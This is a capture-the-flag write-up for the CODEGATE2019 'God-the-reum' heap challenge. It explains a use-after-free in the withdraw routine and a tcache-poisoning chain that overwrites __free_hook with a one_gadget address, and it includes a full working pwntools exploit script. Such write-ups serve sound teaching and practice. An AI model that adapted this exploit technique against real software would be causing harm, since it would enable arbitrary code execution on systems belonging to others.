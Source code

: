 # CODEGATE2019 God-the-reum

```
[*] '/mnt/hgfs/Shared/god-the-reum'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Binary uses glibc 2.27
Binary has a structure below.

```
struct wallet {
  void *addr;
  void *size;
}
```

Below is menu.

```
====== Ethereum wallet service ========
1. Create new wallet
2. Deposit eth
3. Withdraw eth
4. Show all wallets
5. exit
select your choice : 
```

First menu makes a wallet, which is malloc. The addr pointer is allocated by `malloc(0x82)`, and program get input of initial balance of new wallet. Interesting point is that input value is the size of newly allocated chunk and also the data in allocated chunk. That is,

```
printf("how much initial eth? : ", 0LL);
__isoc99_scanf("%llu", &size);
wallet_addr->size = malloc(size);
if ( wallet_addr->size )
  *wallet_addr->size = size;
```

therefore we can freely make chunks that have arbitrary size.

Other menu has nothing special, but in withdraw menu is the size pointer freed if balance after withdraw is zero.
but there's no initializing NULL procedure which means UAF vulnerability.

```
void __cdecl Withdraw_eth(wallet *a1)
{
  __int64 v1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("how much you wanna withdraw? : ");
  __isoc99_scanf("%llu", &v1);
  *a1->size -= v1;
  if ( !*a1->size )
    free(a1->size);
  puts("withdraw ok !\n");
}
```

There's a hidden menu, developer.
```
void __cdecl developer(wallet *a1)
{
  dummy();
  puts("this menu is only for developer");
  puts("if you are not developer, please get out");
  sleep(1u);
  printf("new eth : ");
  __isoc99_scanf("%10s", a1->size);
}
```

In fact, we can write arbitrary data with deposit menu. but while deposit menu get input type of number,
 developer menu gets string. It makes more easy to write exploit codes.

Exploit scenario is

1. alloc a chunk that is large enough and free it(libc leak)
2. alloc a chunk that is suitable size in tcache and free.
3. overwrite fd pointer and get the pointer of __free_hook
4. overwrite __free_hook with one_gadget
5. call free

```
from pwn import *


def sla(x, y): return p.sendlineafter(x, y)


def ru(x): return p.recvuntil(x)


def create(size):
    sla('choice : ', str(1))
    sla('eth? : ', str(size))


def deposit(idx, amount):
    sla('choice : ', str(2))
    sla('no : ', str(idx))
    sla('deposit? : ', str(amount))


def withdraw(idx, amount):
    sla('choice : ', str(3))
    sla('no : ', str(idx))
    sla('withdraw? : ', str(amount))


def show():
    sla('choice : ', str(4))


def developer(idx, data):
    sla('choice : ', str(6))
    sla('no : ', str(idx))
    sla('new eth : ', data)


p = process('./god-the-reum', env={'LD_PRELOAD': './libc-2.27.so'})
bin = ELF('./god-the-reum')
libc = ELF('./libc-2.27.so')

free_hook_offset = 0x3ed8e8
one_gadget_offset = 0x4f322  # 0x4f2c5 0x4f322 0x10a38c

# gdb.attach(p, '')

# libc leak
create(0x1000)  # 1
create(0x10)    # 2
withdraw(0, 0x1000)
show()
ru('ballance ')
libc_addr = int(ru('\n')[:-1]) - 0x3ebca0
log.info('Libc Addr: ' + hex(libc_addr))

# tcache
withdraw(1, 0x10)
developer(1, p64(libc_addr + free_hook_offset))
create(0x10)    # 3
create(0x10)    # 4
developer(3, p64(libc_addr + one_gadget_offset))
withdraw(2, 0x10)

p.interactive()
```

